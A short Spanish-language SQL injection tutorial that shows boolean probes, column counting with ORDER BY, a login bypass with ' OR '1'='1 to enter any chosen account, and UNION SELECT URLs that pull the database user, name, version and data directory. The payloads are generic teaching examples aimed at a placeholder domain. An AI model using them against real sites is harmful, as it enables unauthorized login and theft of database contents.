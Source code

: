 - CHAR [ '1 AND 1=1 -- - ]

```sql
SELECT usuario FROM usuarios WHERE usuario='1' AND 1=1 -- -'
```

- STRING [ "1 AND 1=1 -- - ]

```sql
SELECT usuario FROM usuarios WHERE usuario="1" AND 1=1 -- -"
```

Solo si el parámetro coincide cargará la página.

#### Número de columnas a devolver

```sql
SELECT usuario FROM usuarios WHERE usuario='1' AND 1=1 ORDER BY 500 -- -'
```

Si el número de columnas a devolver es menor que el número que ponemos en el ORDER BY, saldrá un error.

### Bypass de un login

Estructura estandar de prueba de la consulta Login:

```sql
SELECT usuario FROM usuarios WHERE usuario = 'admin' AND password = "admin"
```

Si la consulta está vacía no devuelve nada y no permitirá acceso, en caso contrario sí, **dando igual que haya uno o más registros**.

Sabiendo eso se puede usar el parámetro mágico: ' OR 1=1

```sql
SELECT usuario FROM usuarios WHERE usuario = '' OR '1'='1' AND password="" OR "1"="1"
```

Al ser todo verdadero devolverá la tabla completa de usuarios.

En caso de querer entrar en una cuenta en específico bastaría con cambiar el usuario a el que queremos acceder y dejamos el password con la frase mágica.

### Explotación

1. Recopilación de información sobre usuarios, versión, etc.
   - **User()**: Que usuario ejecuta las consultas en la app.
   - **database()**: Nombre de la base de datos.
   - **@@version**: Que versión tenemos.
   - **@@datadir**: Donde está instalado MySQL.

```text
        http://dominio/noticias.php?id=1 and 1=0 union select user(),database()
        http://dominio/noticias.php?id=1 and 1=0 union select @@version,@@datadir
```

1. Extracción de información de la base de datos.
2. Extracción de las tablas de la base de datos seleccionada.
3. Extracción de las columnas de la tabla seleccionada.
4. Realizar las consultas personalizadas de las columnas y la tabla seleccionada.
